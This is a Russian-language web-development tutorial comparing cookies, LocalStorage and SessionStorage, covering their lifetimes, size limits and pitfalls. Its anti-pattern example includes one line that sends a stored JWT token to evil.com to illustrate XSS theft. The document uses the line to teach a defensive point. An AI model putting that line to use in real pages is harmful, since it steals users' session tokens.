

# Local Storage vs Session Storage vs Cookies

## Инженерная история: Три кита клиентского хранилища

Раньше браузеры были "беспамятными", и единственным способом сохранить хоть какие-то данные (например, логин) между запросами к серверу были Cookies. Куки придумывались для идентификации, но разработчики стали пихать в них всё подряд (цветовую тему, содержимое корзины). Это было ужасно, потому что куки отправлялись на сервер *при каждом* запросе картинок и стилей, сжигая трафик.

С появлением HTML5 разработчики получили специализированные инструменты: **LocalStorage** (для постоянных данных) и **SessionStorage** (для временных). У каждого хранилища теперь есть своя четкая архитектурная роль, и путать их — значит создавать дыры в безопасности или баги в UX.

## Как это работает на практике

- **Cookies (Куки):** Живут до истечения срока `Expires`. Их главная фича: они **автоматически отправляются на сервер** с каждым HTTP-запросом. Максимальный размер ~4 КБ.
- **LocalStorage:** Живет вечно (пока пользователь не очистит кэш). Сервер о нем ничего не знает. Размер ~5 МБ. Данные общие для всех вкладок одного домена.
- **SessionStorage:** Живет, пока открыта конкретная вкладка браузера. Если закрыть вкладку — данные уничтожаются. Сервер о нем не знает. Размер ~5 МБ. Изолировано для каждой вкладки.



## Примеры кода

### ❌ Антипаттерн: Хранение JWT-токена в LocalStorage

Самая частая ошибка новичков. Любой вредоносный скрипт на вашей странице (XSS уязвимость) может прочитать LocalStorage, украсть токен и отправить хакеру.

```javascript
// ОЧЕНЬ ПЛОХО ДЛЯ БЕЗОПАСНОСТИ
localStorage.setItem('jwt_token', token);

// Хакер через внедренный скрипт (или плохую NPM-зависимость):
fetch('http://evil.com/steal?token=' + localStorage.getItem('jwt_token'));
```

### ✅ Правильное решение: Использование по назначению

Куки (HttpOnly) — для авторизации, LocalStorage — для настроек UI, SessionStorage — для изоляции вкладок.

```javascript
// 1. Авторизация (Куки настраиваются на СЕРВЕРЕ!)
// Сервер отправляет заголовок: 
// Set-Cookie: jwt=123; HttpOnly; Secure; SameSite=Strict
// Фронтенд код вообще не трогает токен, браузер сам шлет его безопасно.

// 2. Настройки (LocalStorage)
// Сохраняем тему. Пользователь закроет браузер, вернется завтра - тема останется.
localStorage.setItem('ui_theme', 'dark');

// 3. Состояние формы (SessionStorage)
// Если пользователь откроет вторую вкладку с этой же формой,
// у нее будет свой чистый SessionStorage (они не пересекутся).
sessionStorage.setItem('wizard_step_1_draft', JSON.stringify(formData));
```

## Неочевидные нюансы и границы применимости

- **Блокировка потока (Performance):** LocalStorage и SessionStorage работают синхронно. Если вы попытаетесь записать или прочитать из них огромный JSON (например, 2 Мегабайта) во время рендера React, вы наглухо повесите главный поток браузера на несколько десятков миллисекунд. Для больших объемов данных нужно использовать асинхронный IndexedDB.
- **SSR Mismatch:** Если ваш сайт использует Server-Side Rendering (Next.js/Nuxt), сервер *не имеет доступа* к LocalStorage. Сервер отрендерит страницу со стандартной светлой темой, а клиентский React при монтировании прочитает LocalStorage и резко переключит на темную (Flash of Unstyled Content). Единственный способ прочитать настройки UI на сервере — хранить их в Cookies.
- **Приватные окна (Incognito):** В режиме инкогнито некоторые браузеры (например, Safari) могут бросать исключение (Exception) при любой попытке записать данные в LocalStorage. Код всегда нужно оборачивать в `try...catch`, чтобы не уронить приложение.
